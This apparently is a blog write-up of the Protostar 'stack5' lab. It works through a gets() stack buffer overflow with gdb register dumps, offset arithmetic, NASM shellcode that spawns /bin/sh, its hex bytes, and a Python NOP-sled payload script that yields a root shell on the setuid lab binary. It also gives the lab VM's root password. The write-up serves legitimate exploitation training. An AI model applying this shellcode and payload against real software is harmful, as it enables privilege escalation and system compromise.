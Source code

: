 ```yaml
---
layout: post
title:  "Protostar stack5 challenge"
date:   2018-04-14 23:37:36 +0530
categories: security protostar
---
```



Buffer overflow attack [Stack5][stack-5] but here we are not given a win free function to direct control to unlike previous challenges.
So we will have to create and use our own shell code which should be called upon execution of the program.
{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv) {
  char buffer[64];
  gets(buffer);
}
{% endhighlight %}

As usual `gets` is the vulnerable function here.
As seen from `stack4` exercise, first we need to find where RET return address is located in main.
Let us first see main's disassembly
{% highlight nasm %}
$ gdb /opt/protostar/bin/stack5
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
{% endhighlight %}

`$ebp` is base pointer. `$esp` is stack pointer which points to top of stack
When a new function is called, the calling function `$ebp` is pushed onto the stack.
Then new `$ebp` points to current `$esp`.
{% highlight nasm %}0x080483c4 <main+0>:    push   ebp{% endhighlight %}
{% highlight nasm %}0x080483c5 <main+1>:    mov    ebp,esp{% endhighlight %}
Then space for local variables is created.
Also `$eip`(not seen here) points to current instruction pointer, ie the current
instruction being executed.
The RET address(where control should return after exiting main commonly
some C library) is stored just after where `$ebp` is stored.

We add few break points and then run program to see value of various registers.
{% highlight nasm %}
(gdb) b *0x080483c4
Breakpoint 1 at 0x80483c4: file stack5/stack5.c, line 7.
(gdb) b *0x080483d4
Breakpoint 2 at 0x80483d4: file stack5/stack5.c, line 10.
(gdb) b *0x080483d9
Breakpoint 3 at 0x80483d9: file stack5/stack5.c, line 11.
{% endhighlight %}
{% highlight nasm %}
(gdb) r
Starting program: /opt/protostar/bin/stack5

Breakpoint 1, main (argc=1, argv=0xbffffd74) at stack5/stack5.c:7
7       stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) info r
eax            0xbffffd74       -1073742476
ecx            0x698c084a       1770784842
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffccc       0xbffffccc
ebp            0xbffffd48       0xbffffd48
esi            0x0      0
edi            0x0      0
eip            0x80483c4        0x80483c4 <main>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}


We hit first breakpoint before the first instruction.
Here we see $ebp has `0xbffffd78`. This is `$ebp` value of caller
 which will be now pushed to stack. {% highlight nasm %}(0x080483c4 <main+0>:    push   ebp)

(gdb) c
Continuing.

Breakpoint 2, 0x080483d4 in main (argc=1, argv=0xbffffd74) at stack5/stack5.c:10
10      in stack5/stack5.c
(gdb) infor
Undefined command: "infor".  Try "help".
(gdb) info r
eax            0xbffffc80       -1073742720
ecx            0x698c084a       1770784842
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffc70       0xbffffc70
ebp            0xbffffcc8       0xbffffcc8
esi            0x0      0
edi            0x0      0
eip            0x80483d4        0x80483d4 <main+16>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
This is break just before calling gets(buffer).
Here we see $ebp is 0xbffffcc8. This was due to {% highlight nasm %}(mov    ebp,esp)`{% endhighlight %}
and is basically where callers $ebp is stored.
In Intel architecture, the address of buffer is saved to top of stack $esp just before calling func.
So `$esp` points to buffer location ie `$esp` contain the location of buffer.
{% highlight nasm %}
(gdb) x/x $esp
0xbffffc70:     0xbffffc80
{% endhighlight %}
That means buffer is located as 0xbffffc80.

Since `gets` would start input from this address, we attempt to overflo this buffer just
so that `RET` is overwritten with our shellcode location. And when control returns from
main our shellcode is executed.
Since `RET` is after `$ebp`, start of `RET` is `$ebp+4`
So we need to overwrite dummy chars upto `RET` ie `startRET - startbuffer`
ie `0xbffffcc8 + 4 - 0xbffffc80 = 76(base 10)`

To test this, in a separate terminal, rerun with this as input

{% highlight nasm %}
$  perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE"' > temp.txt
(gdb) r < /home/user/temp.txt
Starting program: /opt/protostar/bin/stack5 < /home/user/temp.txt

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
(gdb) info r
eax            0xbffffc80       -1073742720
ecx            0xbffffc80       -1073742720
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffcd0       0xbffffcd0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xdeadbeef       0xdeadbeef
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
We see `$eip` which is the return pointer is overwritten as `0xdeadbeef` and we get `SIGSEGV`.
So we have 76 chars before `RET` where we can store our shell code or we can also store it after `RET`.
We will try to store it before `RET`.

First we begin by creating shell-code which would spawn a shell.
I used this link to get shell-code. [shellcode5.html][shellcode5]. 
There are multiple tutorials available on how to write shell code which can be referenced.

{% highlight nasm %}
;shellex.asm
[SECTION wtext write]

global _start


;shellex.asm
section wtext write

global _start


_start:
    xor eax, eax
    mov al, 70                    ; setreuid is syscall 70
    xor ebx, ebx
    xor ecx, ecx
    int 0x80

    jmp short    mycall           ; Immediately jump to the call instruction

    shellcode:
        pop        ecx                ; Store the address of "/bin/sh" in ESI
        xor        eax, eax           ; Zero out EAX
        mov byte   [ecx + 7], al      ; Write the null byte at the end of the string

        mov dword  [ecx + 8],  esi    ; [ecx+8], i.e. the memory immediately below the string
                                      ;   "/bin/sh", will contain the array pointed to by the
                                      ;   second argument of execve(2); therefore we store in
                                      ;   [ecx+8] the address of the string...
        mov dword  [ecx + 12], eax    ; ...and in [ecx+12] the NULL pointer (EAX is 0)
        mov        al,  0xb           ; Store the number of the syscall (11) in EAX
        lea        ebx, [ecx]         ; Copy the address of the string in EBX
        lea        edx, [ecx + 12]    ; Third argument to execve(2) (NULL pointer)
        lea        ecx, [ecx + 8]     ; Second argument to execve(2)
        int        0x80               ; Execute the system call

    mycall:
        call       shellcode          ; Push the address of "/bin/sh" onto the stack
        db         "/bin/sh"
{% endhighlight %}

Most of the shellcode is same as given in link but i had to add `[SECTION wtext write]`
atop the code. Something to do with make stack section writable as mentioned here.
[Discussion in stackoverflow][so-discussion]

{% highlight nasm %}
nasm -felf get_shell.asm
ld -melf_i386 -o get_shell get_shell.o
./get_shell
{% endhighlight %}
So we get a shell now.
We need to get shell code as hex. Using objdump and regex dump from my SE course
{% highlight shell_session %}
madhurrawat@madhurrawrat-VirtualBox:~/Desktop/shellcode$ objdump -D ./get_shell.o |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
{% endhighlight %}

So we prepare a python script to prepare payload. `\x90` is ASCII for `NOP`.
{% highlight python %}
#!/usr/bin/env python
offset = 72
shellcode = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31 \
\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d \
\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
nopsled = "\x90" * (offset - len(shellcode))
ret = "\xb0\xfc\xff\xbf"


payload = nopsled + shellcode + "JJJJ" + ret

print payload
{% endhighlight %}

So basically we are overwriting `$ebp` frame pointer with "JJJJ".
nopsled + shellcode should total 72.

But wait why is `RET` here as `0xbffff790`. Shouldn't it be start of our
buffer ie `0xbffffc80`. Well i tried with `RET` as `0xbffffc80` but got `SEG`
Which has something to do with running through `gdb` also taking into buffer some
enviroment variables which change the addresses.

To understand better we try to analyze the core file.
So we login as `root` in protostar. Password for which is `godmode`.
Below we first enable core dumps and then overwrite `RET` with `0xDEADBEEF` to see
at what address buffer writing started.
{% highlight shell_session %}
root@protostar:/# echo 2 > /proc/sys/fs/suid_dumpable
root@protostar:/# cat /proc/sys/kernel/core_pattern
/tmp/core.%s.%e.%p
root@protostar:/# ulimit -c unlimited
root@protostar:/# cd /opt/protostar/bin
root@protostar:/opt/protostar/bin#  perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE"' | ./stack5
Segmentation fault (core dumped)
root@protostar:/opt/protostar/bin# ls /tmp
core.11.stack5.1817
root@protostar:/opt/protostar/bin# gdb -q -c /tmp/core.11.stack5.1817
{% endhighlight %}
{% highlight nasm %}
Core was generated by `./stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()

(gdb) info r
eax            0xbffffcb0       -1073742672
ecx            0xbffffcb0       -1073742672
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffd00       0xbffffd00
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xdeadbeef       0xdeadbeef
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}

Ok. so we overwrote `RET` properly coz `$eip` is `0xdeadbeef`.
Further we examine are where we wrote A 76 times
{% highlight nasm %}
(gdb) x/30x $esp-96
0xbffffca0:     0xbffffcb0      0xb7ec6165      0xbffffcb8      0xb7eada75
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcc0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcd0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffce0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcf0:     0x41414141      0x41414141      0x41414141      0xdeadbeef
0xbffffd00:     0x00000000      0xbffffda4      0xbffffdac      0xb7fe1848
0xbffffd10:     0xbffffd60      0xffffffff
{% endhighlight %}
So we see in coredumps buffer is starting from `0xbffffcb0`.
Since we will be starting from `0xbffffcb0` our RET should now point to it, ie
beginning of our shell code.

{% highlight shell_session %}
$ python pwn5.py > payload5
$  (cat payload5; cat) | /opt/protostar/bin/stack5

id
uid=0(root) gid=1001(user) groups=0(root),1001(user)
whoami
root
{% endhighlight %}

So we successfully spawned a shell as root.
One thing to note. We could spawn a shell as root coz this is a setuid program.
Or else we would have got shell as a normal user.

[stack-5]:https://exploit-exercises.com/protostar/stack5/
[shellcode5]:http://www.kernel-panic.it/security/shellcode/shellcode5.html
[so-discussion]:https://chat.stackoverflow.com/rooms/91636/discussion-between-jester-and-czifro
[core-need]:https://github.com/flankerhqd/protostar-solutions/blob/master/Stack%205/stack5.txt